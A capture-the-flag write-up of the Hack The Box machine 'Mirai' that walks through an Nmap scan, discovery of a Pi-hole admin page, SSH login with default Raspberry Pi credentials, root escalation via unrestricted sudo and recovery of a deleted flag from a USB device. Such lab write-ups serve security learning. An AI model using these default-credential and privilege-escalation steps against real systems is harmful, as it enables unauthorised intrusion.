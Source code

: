 # HTB - Mirai

#### Ip: 10.10.10.48
#### Name: Mirai
#### Difficulty: Easy

----------------------------------------------------------------------

![Mirai.png](../assets/mirai_assets/Mirai.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Mirai]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.48 -sC -sV   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-22 14:52 CDT
Nmap scan report for 10.10.10.48
Host is up (0.087s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aaef5ce08e86978247ff4ae5401890c5 (DSA)
|   2048 e8c19dc543abfe61233bd7e4af9b7418 (RSA)
|   256 b6a07838d0c810948b44b2eaa017422b (ECDSA)
|_  256 4d6840f720c4e552807a4438b8a2a752 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
1124/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: Unauthorized
|_http-favicon: Plex
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.28 seconds
```

For HTTP we have a blank page on port 80, and a Plex server sign in page on port 32400

![plex.png](../assets/mirai_assets/plex.png)

Running a directory scan against the site on port 80 we find an `/admin` page:

![ferox.png](../assets/mirai_assets/ferox.png)

And heading to the site shows a pi-hole page, which is essentialy a DNS sinkhole built with a Raspberry Pi.

![admin.png](../assets/mirai_assets/admin.png)

### Exploitation

Because we know that SSH is running, lets try the default Raspberry Pi credentials of pi:raspberry to SSH into the box:

```text
┌──(ryan㉿kali)-[~/HTB/Mirai]
└─$ ssh pi@10.10.10.48                                 
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami && hostname
pi
raspberrypi
```

Nice, that worked!

We can now grab the user.txt flag:

![user_flag.png](../assets/mirai_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` to see what we can run with elevated permissions, we find we can run anything we want:

```text
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Lets go ahead and run `sudo /bin/bash` to escalate our shell:

```text
pi@raspberrypi:~/Desktop $ sudo /bin/bash
root@raspberrypi:/home/pi/Desktop# whoami
root
root@raspberrypi:/home/pi/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
```

Trying to grab the root flag however, we find a note:

```text
root@raspberrypi:/home/pi/Desktop# cd /root
root@raspberrypi:~# ls
root.txt
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

USB materials are frequently stored in `/media` so lets check there:

```text
root@raspberrypi:~# cd /media
root@raspberrypi:/media# ls
usbstick
root@raspberrypi:/media# cd usbstick
root@raspberrypi:/media/usbstick# ls -la
total 18
drwxr-xr-x 3 root root  1024 Aug 14  2017 .
drwxr-xr-x 3 root root  4096 Aug 14  2017 ..
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Hmmm, lets see if anything is mounted:

![mount.png](../assets/mirai_assets/mount.png)

Interesting, this points us to `/dev/sdb`

And running `strings` against the file reveals the root.txt flag:

![strings.png](../assets/mirai_assets/strings.png)

Thanks for following along!

-Ryan

-----------------------------------------------------------------



